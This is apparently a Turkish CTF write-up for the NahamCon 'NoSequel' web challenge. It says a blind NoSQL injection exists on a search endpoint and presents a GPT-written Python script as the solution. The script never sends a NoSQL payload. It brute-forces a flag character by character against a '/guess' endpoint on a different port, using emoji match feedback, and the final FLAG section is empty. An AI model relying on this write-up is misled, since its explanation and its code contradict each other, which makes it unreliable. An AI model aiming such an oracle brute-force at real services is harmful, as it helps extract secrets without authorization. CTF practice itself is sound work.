




# WEB Write-up: Nahamsec CTF - NoSequel
##  Challenge Adı
**NoSequel**

## Soru:



### Aşamalar

Challenge da verilen URL:
```
http://challenge.nahamcon.com:30927
```



**bize search endpointinden db üzerinden flagi çekebiliriz blind nosqli var çünkü endpointe istegi yolladıgımda match edip etmedigini render eden bir sayfa var**



**bunun için gptye python scripti yazdırdım**

```python
import requests

URL = "http://challenge.nahamcon.com:31920/guess"
chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
prefix = "flag{"
suffix = "}"
flag_guess = ['a'] * 32

session = requests.Session()
session.headers.update({'Content-Type': 'application/json'})

def make_guess(flag_list):
    guess_str = prefix + ''.join(flag_list) + suffix
    data = {"guess": guess_str}
    try:
        resp = session.post(URL, json=data, timeout=3)
        if resp.status_code != 200:
            return None
        return resp.json()
    except:
        return None

def main():
    for pos in range(32):
        for c in chars:
            flag_guess[pos] = c
            response = make_guess(flag_guess)
            if response is None:
                continue
            emoji_result = response.get('result')
            if emoji_result and emoji_result[pos] == '🟩':
                print(f"Position {pos} fixed as '{c}'")
                break
        else:
            print(f"Failed to find valid char at position {pos}")
            return
    print("FLAG FOUND:", prefix + ''.join(flag_guess) + suffix)

if __name__ == "__main__":
    main()

```

**kodu çalıştırdıgımda flagi buldu**

# FLAG

